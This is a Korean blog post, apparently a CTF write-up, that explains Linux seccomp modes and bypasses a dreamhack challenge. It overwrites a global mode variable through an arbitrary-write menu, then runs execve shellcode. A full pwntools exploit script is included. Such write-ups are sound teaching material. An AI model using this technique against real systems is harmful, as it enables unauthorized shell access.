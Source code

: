 ```yaml
---
layout: post
title:  "First Seccomp Bypass"
date:   2020-10-03
categories: ["2020","pwnable"]
update: 2020-10-03
comment: true
tags: [pwnable]
---
```






dreamhack 50등을 향한 마지막 문제로 Seccomp filtering을 우회하는 문제를 풀었다. 처음 만나본 거라서 천천히 강의 내용 읽고, 코드 읽고 풀어봤다.

# 🤔 SECCOMP?

### Introduction

![image](https://user-images.githubusercontent.com/51329156/94989512-5f870800-05b0-11eb-9d95-614e91286e02.png)

Linux kernel은 많은 `syscall`들을 유저권한의 프로세스들에게 노출시킨다. 근데 그 `syscall`들을 모두 쓰는 게 아니고, 일부만 쓰고 나머지 `syscall`들은 사용되지 않은 채로 둔다. 프로세스가 다른 위험한 `syscall`을 호출하게 두는 것은 보안상 문제가 있다. 이를 위해 사용하는 것이 **SECCOMP(SECure COMPuting mode)** 이다.

**Seccomp filtering**은 프로세스의 `syscall` 요청들을 필터링하는 매커니즘이다. 위의 사진을 보면 프로세스가 `syscall`을 한 후, filter들을 통과하지 못하면 `SIGKILL`으로 프로세스를 종료시킨다.



## ❓ HOW TO USE SECCOMP

**SECCOMP** 기능은 `prtcl()` 함수로 사용할 수 있다.

``` c
int prctl(int option, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5);
```

`option` 에 **PR_SET_SECCOMP**를 주면 **SECCOMP**를 설정할 수 있다.

**SECCOMP**를 설정할 때 사용할 수 있는 모드가 3가지 있다.

**seccomp.h**

``` c
#define SECCOMP_MODE_DISABLED	0 /* seccomp is not in use. */
#define SECCOMP_MODE_STRICT	1 /* uses hard-coded filter. */
#define SECCOMP_MODE_FILTER	2 /* uses user-supplied filter. */
```

### SECCOMP_MODE_STRICT

`read`, `write`, `exit`, `sigreturn` 시스템 콜의 호출만 허용하고, 이외의 시스템 콜의 호출 요청이 들어오면 SIGKILL 시그널을 발생하고 프로그램을 종료한다.

아래처럼 설정한다:

``` c
prctl(PR_SET_SECCOMP, SECCOMP_MODE_STRICT);
```



### SECCOMP_MODE_FILTER

필터링할 시스템 콜을 직접 지정해준다. 시스템콜을 관리할 때 **BPF(Berkeley Packet Filter)**라는 필터식을 이용해서 관리한다. **BPF**는 네트워크 패킷을 필터링하기 위해 만들어진 필터링 매커니즘인데, **SECCOMP**를 사용할 때도 이를 사용해 필터를 작성한다.

이 모드를 사용하려면 `no_new_privs` 비트가 설정되어 있어야 한다.

``` c
prctl(PR_SET_NO_NEW_PRIVS, 1)
```

그리고나서 아래처럼 설정한다:

```
prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, args);
```

이 모드를 사용할 때는 세 번째 인자로 전달되는 구조체인 `sock_fprog`에 대한 이해가 필요한데, 이 부분은 문제랑은 상관이 없어서 패스하도록 하겠다.



# SECCOMP BYPASS

### 🔎 Code

필요한 부분만 추려봤다:

``` c
...
int mode = SECCOMP_MODE_STRICT;
...
    if ( prctl(PR_SET_NO_NEW_PRIVS, 1, 0, 0, 0) == -1 ) {
        perror("prctl(PR_SET_NO_NEW_PRIVS)\n");
        return -1;
        }
    if ( prctl(PR_SET_SECCOMP, mode, &prog) == -1 ) {
        perror("Seccomp filter error\n");
        return -1;
        }
...
shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
...
    switch(idx) {
            case 1:
                if(cnt != 0) {
                    exit(0);
                }

                syscall_filter();
                printf("shellcode: ");
                read(0, shellcode, 1024);
                cnt++;
                break;
            case 2:
                sc = (void *)shellcode;
                sc();
                break;
            case 3:
                printf("addr: ");
                scanf("%ld", &addr);
                printf("value: ");
                scanf("%ld", addr);
                break;
            default:
                break;
        }
```

이상하다고 느낀 점 👓

- 배울 때는 **FILTER_MODE** 일 때 `prctl()`에게 세 번째 인자로 `sock_fprog`의 주솔르 준다고 배웠다. 근데 **STRICT_MODE**인데도 줬다.
- `PR_SET_NO_NEW_PRIVS`도 마찬가지..

코드는 간단하다. `READ|WRITE|EXEC` 권한을 준 영역이 있다. 쉘코드를 입력할 수 있고, 실행도 할 수 있다. 원하는 주소에 값을 넣는 것도 가능하다.

일반적으로 사용하는 쉘코드는 `execve('/bin/sh')`의 기계어 코드다. `execve`는 **STRICT_MODE**에서 허용되지 않는 시스템 콜이다. 그래서 어떻게 우회해야 하지 생각하다가 `case 3`과 아까 이상하다고 느낀 점이 딱 맞아떨어져서 풀었다.

`mode`가 전역변수로 선언되어 있고, PIE가 꺼져있기 때문에 주소를 구할 수 있다. 현재 그 주소에 들어있는 값은 `0x1`이다. 이 것을  `0x2`로 바꿔주면  설정해준 필터가 없기 때문에 모든 시스템 콜을 사용할 수 있다! 그러면 `execve` 시스템 콜을 사용해서 쉘을 딸 수 있다 (`0x0`도 가능) 👍

### 🚀 Exploit

값을 바꾸기 전 **SECCOMP_MODE_STRICT**로 설정되어 있는 `mode` 변수 :

![image](https://user-images.githubusercontent.com/51329156/94990260-a297aa00-05b5-11eb-9a2a-6edf7f51e7ef.png)

저 변수의 값을 `case 3`을 이용해 `0x2`로 바꿔준다.

![image](https://user-images.githubusercontent.com/51329156/94990326-2b164a80-05b6-11eb-96c4-96b59eed8e92.png)

64비트 쉘코드를 `case 1`을 이용해 쓴다.

![image](https://user-images.githubusercontent.com/51329156/94990246-7bd97380-05b5-11eb-9d76-fe7f3cd4abcb.png)

`case 2`를 이용해 실행하면 된다.

#### ex.py

``` python
#!/usr/bin/python
# coding=utf-8
from pwn import *
import sys

context.arch = 'x86_64'
context.log_level='debug'

if len(sys.argv)!=2:
    log.info("try 'python ex.py -l' for local")
    log.info("try 'python ex.py -r' for remote")
    exit(0)

if sys.argv[1]=="-r":
    p = remote('🤐',22463)
elif sys.argv[1]=="-l":
    p = process('🤐')
else:
    log.info("options: -l for local, -r for remote")
    exit(0)

e=ELF('🤐')

# Adderss
mode_addr=e.symbols['mode']

log.info("mode address: {}".format(hex(mode_addr)))
shellcode=asm(shellcraft.amd64.linux.sh())

p.sendlineafter("> ","3")
p.sendlineafter("addr: ",str(mode_addr))
p.sendlineafter("value: ",str(2))


p.sendlineafter("> ","1")
p.sendlineafter("shellcode: ",shellcode)

p.sendlineafter("> ","2")

p.interactive()
```

![image](https://user-images.githubusercontent.com/51329156/94990373-7f212f00-05b6-11eb-9032-6eb912991047.png)

❗ 새로 배운 개념이긴 했는데 문제가 워낙 쉽고 저번에 디버깅 연습해놓은 게 있어서 생각보다 금방 풀었다 !



> 🚀 참고
>
> [https://velog.io/@woounnan/LINUX-Seccomp](https://velog.io/@woounnan/LINUX-Seccomp) - HOW TO USE SECCOMP
>
> [http://terenceli.github.io/%E6%8A%80%E6%9C%AF/2019/02/04/seccomp](http://terenceli.github.io/%E6%8A%80%E6%9C%AF/2019/02/04/seccomp) - Introduction
>
> [https://dreamhack.io/learn/2/11#31](https://dreamhack.io/learn/2/11#31) - HOW TO USE SECCOMP

 